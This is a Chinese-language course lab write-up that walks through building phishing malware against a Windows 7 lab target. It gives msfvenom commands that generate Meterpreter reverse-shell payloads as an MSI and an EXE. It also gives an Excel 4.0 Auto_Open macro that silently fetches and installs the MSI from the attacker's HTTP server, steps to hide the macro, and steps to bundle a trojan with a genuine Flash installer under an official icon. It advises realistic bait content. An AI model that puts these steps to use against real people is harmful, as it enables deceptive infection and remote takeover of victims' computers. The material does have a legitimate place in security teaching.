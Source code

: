 ```yaml
---
title: 实验五--权限提升技术
slug: /course/NPTT/test5
sidebar_position: 5
createTime: 2025/04/23 11:53:14
permalink: /course/2wqhr1z8/
---
```


## 实验目的

1、学会制作简单的钓鱼样本并理解钓鱼样本木马的工作原理.

## 实验任务

1、制作恶意的excel文件

2、将正常的软件和恶意木马进行捆绑打包

## 实验步骤

### excel宏

输入下列命令后，即可在目录下看到生成的msi

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.100.129 lport=1234 -f msi -o diaoyu.msi
```

![image-20240714204850148](https://img.crzliang.cn/img/202407142110164.png)

然后启动msf，使用multi/handler模块，并设置好对应的payload，然后输入run，进行监听

![image-20240714204924242](https://img.crzliang.cn/img/202407142110165.png)

然后启动python的http服务，是为了后续制作宏的时候提供网络服务

![image-20240714204934617](https://img.crzliang.cn/img/202407142110076.png)

在自己的电脑上创建一个excel表格（实际情况下，文件名要符合实际，有吸引力，里面的内容最好也是真实的，这里因为是实验环境，所以数据都是捏造的)

![image-20240714204948779](https://img.crzliang.cn/img/202407142110166.png) 

然后插入宏表

![image-20240714205003681](https://img.crzliang.cn/img/202407142110167.png)

![image-20240714205014322](https://img.crzliang.cn/img/202407142110168.png)

打开浏览器输入kali的ip地址，看到下图后右键diaoyu.msi，选择复制链接地址

![image-20240714205024076](https://img.crzliang.cn/img/202407142110169.png)

 然后在表格第一行输入

```bash
 =EXEC("msiexec /q /i http://192.168.100.129/shell.msi")
```

 第二行输入

```bash
 =HALT()
```

然后选择A1的框，把A1改成Auto_Open（让excel打开时自动执行宏）然后回车即可

![image-20240714205100492](https://img.crzliang.cn/img/202407142110170.png)

 然后就是隐藏宏，右键“宏1”，然后选择隐藏

![image-20240714205108651](https://img.crzliang.cn/img/202407142110171.png)

 然后保存为启用宏的文件，点击保存类型，选择里面的启用宏的工作簿即可

![image-20240714205113197](https://img.crzliang.cn/img/202407142110172.png)

 然后把文件传到靶机上，我这里以Windows7为例
 在靶机上点开文件并启用内容

![image-20240714205125500](https://img.crzliang.cn/img/202407142110173.png)

 然后切回kali即可看到成功连接上，输入shell即可获得相应的shell

![image-20240714205131436](https://img.crzliang.cn/img/202407142110174.png)

### 常规软件捆绑远控木马进行钓鱼

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.133 LPORT=7777 -f exe -o flash.exe
```

因为是msf直接生成的没有做免杀，所以拷到本地的时候记得关闭安全软件，不然会报毒

然后还要去flash官网下载一个真正的，图片右一

![image-20240714205158278](https://img.crzliang.cn/img/202407142110175.png)

把这两个文件按下列图片进行压缩打包，为了降低受害者的心里防备，最好是可以把打包好的应用的图标改成官方的图标。

![image-20240714205250711](https://img.crzliang.cn/img/202407142110176.png)

![image-20240714205254262](https://img.crzliang.cn/img/202407142110177.png)

![image-20240714205300874](https://img.crzliang.cn/img/202407142110178.png)

把制作好的恶意文件放到靶机上运行即可成功上线

![image-20240714205305641](https://img.crzliang.cn/img/202407142110179.png)